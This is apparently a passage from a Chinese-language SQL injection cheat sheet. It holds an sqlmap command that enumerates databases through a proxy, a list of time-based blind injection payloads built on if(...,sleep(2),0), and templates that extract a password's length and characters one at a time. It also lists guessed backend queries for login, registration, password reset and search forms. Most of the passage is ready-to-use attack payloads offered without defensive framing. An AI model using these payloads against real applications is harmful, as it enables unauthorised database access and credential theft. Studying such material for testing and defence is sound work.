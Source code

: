 ```
python3 sqlmap.py -r request.txt --technique=union --dbms=mysql --proxy="http://127.0.0.1:8080" --random-agent --batch --dbs
```

### 10、时间注入

#### 一、验证

```
存在的字段+闭合号+and+if(1=1,sleep(2),0)--+
```

##### 盲注list:

```
' and if(1=1,sleep(2),0)--+
" and if(1=1,sleep(2),0)--+
') and if(1=1,sleep(2),0)--+
") and if(1=1,sleep(2),0)--+
')) and if(1=1,sleep(2),0)--+
")) and if(1=1,sleep(2),0)--+
```

#### 二、手法（仅猜字段）

```
闭合号+and+if(LENGTH(password)>$1$,sleep(2),0)--+
闭合号+and+if(SUBSTRING(password,$1$,1)='$a$',sleep(2),0)--+
```

### 11、猜SQL

1. 登录

   ```
   SELECT * FROM users WHERE username = '输入的用户名' AND password = '输入的密码';
   ```

2. 注册

   ```
   SELECT COUNT(*) FROM users WHERE username = '输入的用户名';
   ```

   ```
   INSERT INTO users (username, password) VALUES ('输入的用户名', '输入的密码...');
   ```

3. 重置密码

   ```
   UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass';
   ```

4. 模糊搜索

   ```
   select username,id,email from member where username like '%$name%'";
   ```
